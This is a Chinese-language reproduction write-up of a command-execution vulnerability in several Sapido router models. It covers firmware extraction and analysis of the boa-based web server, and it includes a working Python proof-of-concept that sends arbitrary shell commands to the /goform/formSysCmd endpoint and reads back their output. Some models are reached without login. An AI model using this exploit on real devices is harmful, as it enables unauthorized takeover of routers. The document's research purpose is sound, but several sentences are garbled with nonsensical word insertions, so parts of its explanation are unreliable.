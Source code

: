 # Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/1-20201014111751161.png)

### 0x02 binwalk解压固件

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/2-20201014111751167.png)

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/3-20201014111751162.png)

### 0x03 查看web容器

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/4-20201014111751163.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/5-20201014111751171.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/6-20201014111751178.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/7-20201014111751179.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/8-20201014111751179.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/9-20201014111751179.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/10-20201014111751181.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/11-20201014111751276.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/12-20201014111751187.png)

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/13-20201014111751190.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit Title: SAPIDO RB-1732 command line execution
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux


import requests
import sys

def test_httpcommand(ip, command):
   my_data = {'sysCmd': command, 'apply': 'Apply', 'submit-url':'/syscmd.asp', 'msg':''}
   r = requests.post('http://%s/goform/formSysCmd' % ip, data = my_data)
   content = r.text
   content = content[
     content.find('<textarea rows="15" name="msg" cols="80" wrap="virtual">')+56:
     content.rfind('</textarea>')]
   return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:]))
```

### 0x08 运行截图

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/14-20201014111751194.png)

### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/15-20201014111751195.png)

### 0x010 BRC76n-v2.1.03命令执行漏洞

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/16-20201014111751196.png)

### 0x011 GR297-v2.1.3命令执行漏洞

![image](resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/17-20201014111751197.png)

### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido多款路由器命令执行漏洞/)